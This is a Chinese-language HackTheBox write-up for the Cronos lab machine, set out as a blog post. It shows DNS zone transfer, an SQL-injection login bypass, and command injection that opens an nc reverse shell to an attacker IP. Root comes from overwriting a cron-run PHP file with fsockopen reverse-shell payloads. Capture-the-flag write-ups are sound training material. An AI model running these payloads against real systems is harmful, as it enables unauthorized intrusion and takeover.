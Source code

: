 ```yaml
---
layout: post
title:  "HackTheBox >_ Cronos_13"
description: walkthrough
category: HackTheBox
---
```

# Cronos_13

![image-20200925091734250]({{ site.url }}/assets/Cronos_13.assets/image-20200925091734250.png)

![image-20200925091752511]({{ site.url }}/assets/Cronos_13.assets/image-20200925091752511.png)

扫描存在domain
先把ip解析存入host，随便命名。
然后dig一下，找出真实存在的域名

![image-20200925091837982]({{ site.url }}/assets/Cronos_13.assets/image-20200925091837982.png)

```bash
$ dig axfr @10.10.10.13 cronos.htb
```

![image-20200925091920701]({{ site.url }}/assets/Cronos_13.assets/image-20200925091920701.png)

将新的域名加入host，逐个浏览

`admin.cronos.htb`有机会

![image-20200925092138120]({{ site.url }}/assets/Cronos_13.assets/image-20200925092138120.png)


burpsuite打sql登陆绕过

![image-20200925092243259]({{ site.url }}/assets/Cronos_13.assets/image-20200925092243259.png)


随便使用打出来能绕过登陆的payload绕过登陆限制`admin' #`

![image-20200925092259581]({{ site.url }}/assets/Cronos_13.assets/image-20200925092259581.png)

明显命令注入
抓包观察

![image-20200925092359600]({{ site.url }}/assets/Cronos_13.assets/image-20200925092359600.png)

试着直接修改命令，操作靶机使用nc打个shell回kali

注意由于&会被用于分割两个参数，所以要把&符号转义成%26，

正常命令：`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.41 1234 >/tmp/f`

写法1：`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.41 1234 >/tmp/f`

写法2：`rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.41+1234+>/tmp/f`

![image-20200925092527707]({{ site.url }}/assets/Cronos_13.assets/image-20200925092527707.png)

在kali监听端口得到shell

![image-20200925092558195]({{ site.url }}/assets/Cronos_13.assets/image-20200925092558195.png)

得到user

![image-20200925092645793]({{ site.url }}/assets/Cronos_13.assets/image-20200925092645793.png)

上传linEnum进行进一步枚举

![image-20200925093027859]({{ site.url }}/assets/Cronos_13.assets/image-20200925093027859.png)

![image-20200925093329387]({{ site.url }}/assets/Cronos_13.assets/image-20200925093329387.png)



进一步枚举发现计划任务

![image-20200925093411618]({{ site.url }}/assets/Cronos_13.assets/image-20200925093411618.png)

检查权限

![image-20200925093458971]({{ site.url }}/assets/Cronos_13.assets/image-20200925093458971.png)

注意是拥有者是www-data，权限可写入。这个任务却是在任务中 是以root执行，。

而执行程序是php。可以直接echo更改执行程序的内容！

常规语句

```bash
$ echo '<?php $sock=fsockopen("10.10.14.41",9999);exec("/bin/bash -i &3 2>&3"); ?>' > /var/www/laravel/artisan
```


打了发现回讯会断不稳定

换了使用pipe通道的语句

```bash
$ echo '<?php $sock = fsockopen("10.10.14.41",1337);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>' > /var/www/laravel/artisan
```


成功，在监听端口获得root shell

![image-20200925093859993]({{ site.url }}/assets/Cronos_13.assets/image-20200925093859993.png)


